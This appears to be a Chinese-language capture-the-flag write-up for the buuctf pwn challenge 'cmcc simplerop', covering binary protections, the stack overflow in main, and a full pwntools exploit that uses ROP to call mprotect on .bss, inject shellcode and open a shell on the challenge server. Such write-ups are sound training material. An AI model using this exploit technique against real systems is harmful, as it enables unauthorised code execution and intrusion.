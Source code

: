 ```yaml
---
author: 
  name: Zephyr
title: cmcc simplerop
date: 2022-4-6 16:10:08
permalink: /pages/2e1547494524d1a8
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# cmcc simplerop

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/cmcc_simplerop/simplerop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+1Ch] [ebp-14h]

  puts("ROP is easy is'nt it ?");
  printf("Your input :");
  fflush(stdout);
  return read(0, &v4, 100);
}
```

### 链接方式

```shell
file simplerop
simplerop: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=bdd40d725b490b97d5a25857a6273870c7de399f, not stripped
```

静态链接

## 思路分析

1. 目前信息：

   - `main`函数存在任意长度的溢出点
   - 静态链接文件
   - No canary found
   - NX enabled
   - No PIE
2. 思路：
   - 溢出劫持执行流到`mprotect`修改`bss`段的权限，将`shellcode`写入`bss`段处，返回并执行获得`shell`

## exp

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/cmcc_simplerop/simplerop'
io = remote("node4.buuoj.cn", 29263)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0x1c+4
mprotect_addr = elf.symbols['mprotect']
read_addr = elf.symbols['read']
bss_start = elf.bss() & 0xfffff000  # 页对齐
bss_size = 0x1000
rwx = 7
pop_3times_ret = 0x0806e828
payload = flat(['a'*padding, mprotect_addr, pop_3times_ret, bss_start,bss_size, rwx, read_addr, bss_start, 0, bss_start, bss_size])
io.recvuntil('Your input :')
io.sendline(payload)
shellcode = asm(shellcraft.sh())
io.send(shellcode)
io.interactive()
```


